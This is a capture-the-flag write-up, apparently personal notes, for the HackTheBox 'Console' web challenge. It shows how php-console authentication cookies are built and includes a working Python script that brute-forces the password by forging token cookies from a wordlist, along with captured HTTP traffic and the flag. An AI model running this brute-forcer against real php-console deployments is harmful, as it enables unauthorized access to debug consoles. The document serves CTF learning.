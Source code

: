```yaml
---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
Status: 3. Complete
tags:
  - brute-force
  - code-review
  - python-coding
  - reversing
---
```

>[!summary]
>*Could you please check the console of your Chrome?*


# Set up

- 

# Information Gathering

Opening the challenge a default PHP page is showed:

![console-1.png](../../zzz_res/attachments/console-1.png)

The sentence below is non standard in PHP:

> Make sure to load php-console in order to be prompted for a password


- php-console (PHP Console server library): [https://github.com/barbushin/php-console](https://github.com/barbushin/php-console)
- php-console-extension: [https://github.com/barbushin/php-console-extension](https://github.com/barbushin/php-console-extension)

Download and import the extension within chromium:

![console-2.png](../../zzz_res/attachments/console-2.png)

Visit the challenge page and test the extension:

![console-3.png](../../zzz_res/attachments/console-3.png)

![console-4.png](../../zzz_res/attachments/console-4.png)

HTTP Request (pw: `test`):

```
GET / HTTP/1.1
Host: 138.68.155.238:30717
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: <http://138.68.155.238:30717/>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiMDIzNzRhMTIyMzg3YjNmMDZjYTgzNWZiNDA3ZWQxYzc3ZDY3YThlZjMwY2E5ZWFmZjBmMTNkOTE4NDgzYzkwOCIsInRva2VuIjoiOWRlNDQxMjNkYzk5MGJmYTIwZjllNjM5N2YzN2M5ZmFiYjlkNTIwMTk3YjFjNDAzMDkzNTYxYjVmYjE1ZDRlMCJ9fQ==
```

```json
php-console-client = {"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}
```

HTTP Response:

```
HTTP/1.1 200 OK
Date: Fri, 10 Sep 2021 09:38:50 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
PHP-Console-Postpone: {"protocol":5,"isPostponed":true,"id":"543866480751852544435350167"}
PHP-Console: {"protocol":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10712
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

HTTP request (pw: `test2`):

```
GET / HTTP/1.1
Host: 138.68.155.238:30717
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: <http://138.68.155.238:30717/>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: php-console-server=5; php-console-client=eyJwaHAtY29uc29sZS1jbGllbnQiOjUsImF1dGgiOnsicHVibGljS2V5IjoiMDIzNzRhMTIyMzg3YjNmMDZjYTgzNWZiNDA3ZWQxYzc3ZDY3YThlZjMwY2E5ZWFmZjBmMTNkOTE4NDgzYzkwOCIsInRva2VuIjoiZDEzYmM2NzQ5ODNmZjMwMTdiZDYwODIzMTEzMGVlNjliNDY2NGNhNmI3ODM4N2M5YjQ2ZGE2MWI4ZTI2MzMyOSJ9fQ==

```

```json
php-console-client = {"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"d13bc674983ff3017bd608231130ee69b4664ca6b78387c9b46da61b8e263329"}}
```

HTTP response:

```
HTTP/1.1 200 OK
Date: Fri, 10 Sep 2021 09:41:40 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
PHP-Console-Postpone: {"protocol":5,"isPostponed":true,"id":"15213328251665622270599337835"}
PHP-Console: {"protocol":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","isSuccess":false},"docRoot":null,"sourcesBasePath":null,"getBackData":null,"isLocal":null,"isSslOnlyMode":false,"isEvalEnabled":null,"messages":[]}
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 10712
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```

# The bug

```bash
┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie1
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}

┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie2
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"d13bc674983ff3017bd608231130ee69b4664ca6b78387c9b46da61b8e263329"}}

┌──(kali㉿kali)-[~/…/HTB/challenge/web/Console]
└─$ cat cookie1-same
{"php-console-client":5,"auth":{"publicKey":"02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908","token":"9de44123dc990bfa20f9e6397f37c9fabb9d520197b1c403093561b5fb15d4e0"}}

```

`publicKey` is static: `02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908php-console-client` only differs in token (which is related to the password):

Based on these info we can brute-force the password by re-implementing the logic for the token generation. Because we have access to the [client source-code](https://github.com/barbushin/php-console-extension/blob/master/js/auth.js) and [server source-code](https://github.com/barbushin/php-console/blob/master/src/PhpConsole/Auth.php), we can use it to develop our custom script.

## Exploitation

```json
{
"php-console-client" : 5,
"auth":
	{
	"publicKey" : SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'),
	"token": SHA256(SHA256(psw + 'NeverChangeIt:)') + SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'))
	}
}

```

Exploit:

```python
#/usr/bin/env python
from hashlib import sha256
from sys import argv
import base64
import requests
import json

publicKey = "02374a122387b3f06ca835fb407ed1c77d67a8ef30ca9eaff0f13d918483c908"
PASSWORD_HASH_SALT = 'NeverChangeIt:)'
url = argv[1]

print(f"Brute-forcing php-client password for {url}")
print(f"publicKey: {publicKey}")

file = open(argv[2],"r")
for line in file:
	psw = line.strip()
	print(f"Testing: {psw}")
	psw_hash = sha256(psw.strip().encode() + PASSWORD_HASH_SALT.strip().encode())
	print(f"Hash: {psw_hash.hexdigest()}")

	# "token": SHA256(SHA256(psw + 'NeverChangeIt:)') + SHA256($_SERVER['REMOTE_ADDR'] + SHA256(psw + 'NeverChangeIt:)'))
	token = sha256(sha256(psw.strip().encode() + PASSWORD_HASH_SALT.strip().encode()).hexdigest().encode() + publicKey.strip().encode())
	print(f"Token: {token.hexdigest()}")

	php_console_client = '{"php-console-client":5,"auth":{"publicKey":"'+publicKey+'","token":"'+token.hexdigest()+'"}}'
	b64_php_console_client = base64.b64encode(php_console_client.encode('ascii'))
	#print(b64_php_console_client.decode())

	cookies_dict = {"php-console-server":"5", "php-console-client":b64_php_console_client.decode()}
	#print(cookies_dict)

	resp = requests.get(url, cookies=cookies_dict)
	php_console = resp.headers["PHP-Console"]
	php_console_json = json.loads(php_console)

	if php_console_json["auth"]["isSuccess"]:
		print(f"Passowrd found! {psw}")
		print(f"Flag is: {php_console_json['messages']['data']}")
		break

```

![console-5.png](../../zzz_res/attachments/console-5.png)

![console-6.png](../../zzz_res/attachments/console-6.png)

## Flag

>[!success]
>`HTB{PhP!Cons0lE@ByTh3K+FoUnd+}`

